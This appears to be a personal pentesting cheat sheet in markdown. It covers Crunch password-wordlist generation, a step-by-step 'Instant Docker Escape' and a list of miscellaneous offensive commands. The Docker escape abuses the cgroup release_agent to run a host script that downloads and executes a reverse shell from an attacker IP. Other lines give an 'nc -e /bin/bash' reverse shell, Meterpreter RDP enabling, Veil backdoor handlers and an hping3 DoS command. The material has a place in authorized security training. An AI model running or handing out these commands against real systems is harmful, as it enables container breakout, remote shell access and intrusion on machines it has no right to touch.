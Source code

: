 

**Crunch**
## Generate wordlists with Crunch
Ex: 
Default charset is lowecase alphabet
- crunch [min-length] [max-lenth] ([charset] [option]) >>> optional
- crunch 2 4
- crunch 1 2 soni siu sia >>> min and max length is required but in this case wont be used.
- crunch 6 6 -t d%d%d% -p rara riri ruru >> d is the word location. The length will be more than 6. When we use -p length is just a formality/
- etc.. just read the man

## Important Options

Pattern (-t)
@ -> lowercase character
, -> uppercase character
% -> numbers
^ -> symbol
- crunch 7 7 -t @,%^123 -o wordlist.txt (notice that min-max length have to be the same as pattern length)

Charset (-f)
- Lookat the preset charsets in /usr/share/crunch/charset.lst
- crunch 2 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -o ww.txt


**Instant Docker Escape**
Create a reverse shell.sh
Open a netcat listener to get connection from shell.sh and a python server ofc

On the docker machine
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/cmd" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /cmd
6. echo 'curl [yourIP]:8000/shell.sh -o /dev/shm/shell.sh' >> /cmd
7. echo 'chmod +x /dev/shm/shell.sh' >> /cmd
8. echo 'sh /dev/shm/shell.sh' >> /cmd
9. chmod a+x /cmd
10. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

===========

1. You can use the gtfo bins one also to create alpine
2. Or just use some weird misconfiguration on the system.


**Random**
1. hashcat --example-hash >> or just visit the one in the web
<hash>:<salt>
2. diff -y [file1] [file2] >> compare file side by side
3. binary mode FTP is better
4. watch -n 0 [stuff you want to watch]
ex = watch -n 0 ls -la /bin/bash
5. when we have admin in windows, and meterpreter shell, try
	`run post/windows/manage/enable_rdp `
	and conenct rdp. Fun commands
6. Veil msfconsole combo
Generate
msfconsole --resource /var/lib/veil/output/handlers/[yourbackdoor]
7. nc -e /bin/bash [ip] [port]
8. from binascii import unhexlify >> unhexlify to convert hex to string
9. hping3 DOS
	hping3 -S [host] -p ++[initial_port] >>> Port status discovery (open/not)